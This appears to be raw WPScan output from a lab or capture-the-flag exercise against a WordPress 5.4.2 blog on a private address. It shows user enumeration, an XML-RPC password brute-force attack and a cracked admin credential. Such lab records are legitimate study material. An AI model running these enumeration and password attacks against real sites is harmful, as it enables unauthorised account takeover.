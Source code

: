 ```bash
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.186.60/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.186.60/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                                                                                     
Trying admin / princess7 Time: 00:04:06 <                                                                                                                                                                                              > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 31 15:33:36 2023
[+] Requests Done: 3900
[+] Cached Requests: 40
[+] Data Sent: 2.001 MB
[+] Data Received: 2.3 MB
[+] Memory used: 190.441 MB
[+] Elapsed time: 00:04:09
```
